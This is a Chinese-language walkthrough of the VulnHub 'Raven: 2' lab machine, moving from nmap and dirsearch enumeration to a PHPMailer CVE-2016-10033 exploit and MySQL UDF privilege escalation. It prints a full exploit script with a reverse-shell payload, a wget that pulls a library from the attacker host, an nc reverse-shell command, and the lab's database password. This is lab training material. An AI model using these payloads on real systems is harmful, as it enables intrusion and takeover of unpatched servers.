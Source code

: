 靶机地址：[Raven: 2 ~ VulnHub](https://www.vulnhub.com/entry/raven-2,269/)

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- "192.168.1.54"
sudo nmap -p "22,80,111,57472" -sV "192.168.1.54"
# 22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
# 80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
# 111/tcp   open  rpcbind 2-4 (RPC #100000)
# 57472/tcp open  status  1 (RPC #100024)
```

查看web页面，没发现什么特别的，只在 `/contact.php` 有一个登录表单，简单尝试了一下，没发现明显的安全问题
进行web路径扫描
```Shell
sudo dirsearch -u "http://192.168.1.54"
# /.DS_Store
# /vendor/
# /wordpress/
# /wordpress/wp-login.php
```

访问 `/wordpress` 加载很慢，查看源码，需要修改hosts文件
```
# raven.local
192.168.1.54    raven.local
```
简单尝试，没发现明显的安全问题
进一步探测
```Shell
sudo dirsearch -u "http://raven.local/wordpress"
# /wordpress/wp-content/upgrade/
# /wordpress/wp-content/uploads/
```
`http://raven.local/wordpress/wp-content/uploads/2018/11/flag3.png` 路径下发现一个flag

`http://raven.local/vendor/PATH` 路径下发现一个flag
`http://raven.local//vendor/VERSION` 路径下发现版本信息 `5.2.16`
`http://raven.local//vendor/SECURITY.md` 中提示了当前版本存在的漏洞 `CVE-2016-10033`
```Shell
searchsploit PHPMailer
# PHPMailer < 5.2.18 - Remote Code Execution | php/webapps/40974.py
cp /usr/share/exploitdb/exploits/php/webapps/40974.py .
```
修改漏洞利用代码的如下位置
```Python
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')

# 修改目标链接
target = 'http://raven.local/contact.php'
# 修改上传的文件名
backdoor = '/rs.php'

# 修改反弹shell的目标IP和端口号
payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.1.26\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
# 修改上传的目标文件名和位置
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/var/www/html/rs.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```
执行一下看看
```Shell
python3 -m venv env
source env/bin/activate
pip3 install requests_toolbelt
pip3 install lxml
python3 40974.py
```
访问 `http://raven.local/rs.php` 可以成功访问到上传的文件
监听端口重新访问，成功获取到反弹shell，先升级一下
```Shell
python -c 'import pty; pty.spawn("/bin/bash")'
# python3 -c 'import pty; pty.spawn("/bin/bash")'
# <Ctrl-Z> 挂起

stty raw -echo
fg
export SHELL=/bin/bash
export TERM=screen
stty rows 100 columns 200
reset
```
尝试提权
```Shell
ss -antlp
# 3306
cat /var/www/html/wordpress/wp-config.php
# define('DB_NAME', 'wordpress');
# define('DB_USER', 'root');
# define('DB_PASSWORD', 'R@v3nSecurity');

mysql -u root -p
# R@v3nSecurity
mysql > system id;
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
还是普通用户无法直接利用，但是 `mysql` 确实是root进程，尝试UDF提权
`kali` 中自带一些可以直接使用的动态链接库
```Shell
locate "*mysqludf*"
```
结果如下
```
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.so
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so
```
尝试提权
```Shell
cd /tmp/
wget http://192.168.1.26:7331/lib_mysqludf_sys_64.so -O udf.so
mysql -u root -p
# password
mysql> show variables like '%plugin%';
# plugin_dir : /usr/lib/mysql/plugin/

# 通过MySQL写动态库 通过建一个过渡表
# 随便进入一个数据库就行 不一定是mysql
mysql> use mysql;
# 表名避免冲突
mysql> create table temp(line blob);
mysql> insert into temp values(load_file('/tmp/udf.so'));
mysql> select * from temp into dumpfile '/usr/lib/mysql/plugin/udf.so';

# 不一定是sys_exec
# 其它函数的可以通过 strings udf.so 查看
mysql> create function sys_exec returns integer soname 'udf.so';
# 检查是否可以UDF提权
mysql> select sys_exec('id > /tmp/tset.txt');
# 检查下属主属组是不是root账号
ls -l /tmp/tset.txt
# 利用 如反弹shell
mysql> select sys_exec('nc 192.168.1.26 3333 -e /bin/bash');
```
成功提权
